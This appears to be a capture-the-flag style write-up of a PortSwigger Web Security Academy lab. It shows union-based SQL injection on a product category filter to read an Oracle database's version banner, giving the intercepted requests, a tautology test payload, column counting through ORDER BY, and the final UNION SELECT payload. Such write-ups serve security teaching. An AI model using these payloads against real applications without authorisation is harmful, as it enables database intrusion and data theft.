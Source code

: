 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - Querying the database type and version on Oracle
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SQL injection (`Union Based`)

---

## 🔍 Request interception

> SQL injection vulnerability is in the product category filter functionality.

> I intercept the request to select an arbitrary filter (for example `pets`):

```http

GET /filter?category=Pets HTTP/2
Host: 0ae000df049fd3b9888b4dad003a001f.web-security-academy.net
Cookie: session=ywD3y9DTzSh2arJGEXIGyZfWQW2yEvto
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae000df049fd3b9888b4dad003a001f.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab I need to output the version of the database I'm using.

> I use `UNION-based` SQL injection to extract data.

> **Note:** `UNION` is an operator in the `SQL` query language that combines the results of two `SELECT` queries with the same number of columns and compatible data types.
> This way I can extract data from an arbitrary table.

> I check that `SQL` injection is possible:

```http

GET /filter?category=' or 1=1 -- HTTP/2

```
> Result:

![sqli](./screenshots/sqli.png)

> Ok. I determine the number of columns in the table. This is important because `UNION` requires that both parts of the `SELECT` query return the same number of columns.
> I use the `ORDER BY` operator, which is used to sort the query results by one or more columns

> I use `Intruder` to iterate through the columns.
> I generate a text file with numbers from `1 to 10` (for example, no more than 10 columns):

```bash

seq 1 10 > numbers.txt

```

> I start iterating over columns:

![intruder](./screenshots/intruder.png)
![intruder_payload](./screenshots/Intruder_payload.png)

> At position `3` the server returns an error:

![intruder_error](./screenshots/intruder_error.png)

> This means that there are `2` columns in the table.

> To display the Oracle database version, I use the query `SELECT banner FROM v$version`.

> Since there are `2` columns in the table, I add a stopper in the form of `null` so that the number of columns in the two `SELECT` queries matches.

```http

GET /filter?category=' UNION SELECT null,banner FROM v$version -- HTTP/2

```
> Result:

![db_version](./screenshots/db_version.png)

> Getting information about the `Oracle Database version`.

![solved_lab](./screenshots/solved_lab.png)

